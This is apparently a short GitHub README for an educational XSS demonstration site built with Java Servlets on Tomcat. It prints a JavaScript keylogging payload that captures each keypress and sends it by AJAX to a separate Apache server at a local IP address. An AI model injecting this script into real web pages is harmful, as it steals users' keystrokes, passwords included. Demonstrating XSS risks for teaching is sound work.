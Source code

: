 # XSS-Demo
I made this website using *Java Servlets* for giving a demo of **XSS and its dangers**.

I hosted the website on my **Tomcat** Server and used **Apache** for **Keylogging**.

![XSS Demo](https://github.com/Miraj50/XSS-Demo/blob/master/XSS_Demo.gif)

The *payload* used for Keylogging:
```
document.addEventListener('keypress', function() {
	console.log(arguments[0].key); /*Testing*/
	$.ajax({
		type: 'GET',
		url: 'http://192.168.0.105', /*apache*/
		data: { 
			'key': arguments[0].key, 
		},
	});
});
```
